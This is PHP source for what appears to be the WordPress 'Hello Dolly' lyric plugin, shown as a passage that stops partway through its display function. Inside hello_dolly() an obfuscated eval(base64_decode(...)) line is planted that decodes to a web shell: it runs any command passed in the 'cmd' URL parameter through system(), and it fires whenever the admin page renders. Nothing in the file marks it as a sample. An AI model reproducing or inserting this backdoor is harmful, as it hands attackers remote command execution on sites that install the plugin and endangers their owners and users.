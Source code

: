 ```bash
Description: This is not just a plugin, it symbolizes the hope and enthusiasm of an entire generation summed up in two words sung most famously by Louis Armstrong: Hello, Dolly. When activated you will randomly see a lyric from <cite>Hello, Dolly</cite> in the upper right of your admin screen on every page.
Author: Matt Mullenweg
Version: 1.7.2
Author URI: http://ma.tt/
*/

function hello_dolly_get_lyric() {
	/** These are the lyrics to Hello Dolly */
	$lyrics = "Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
I feel the room swayin'
While the band's playin'
One of our old favorite songs from way back when
So, take her wrap, fellas
Dolly, never go away again
Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
I feel the room swayin'
While the band's playin'
One of our old favorite songs from way back when
So, golly, gee, fellas
Have a little faith in me, fellas
Dolly, never go away
Promise, you'll never go away
Dolly'll never go away again";

	// Here we split it into lines.
	$lyrics = explode( "\n", $lyrics );

	// And then randomly choose a line.
	return wptexturize( $lyrics[ mt_rand( 0, count( $lyrics ) - 1 ) ] );
}

// This just echoes the chosen line, we'll position it later.
function hello_dolly() {
	eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
	
	$chosen = hello_dolly_get_lyric();
	$lang   = '';
	if ( 'en_' !== substr( get_user_locale(), 0, 3 ) ) {
		$lang = ' lang="en"';
	}

	printf(
		'<p id="dolly"><span class="screen-reader-text">%s </span><span dir="ltr"%s>%s</span></p>',
		__( 'Quote from Hello Dolly song, by Jerry Herman:' ),
		$lang,
		$chosen
	);
```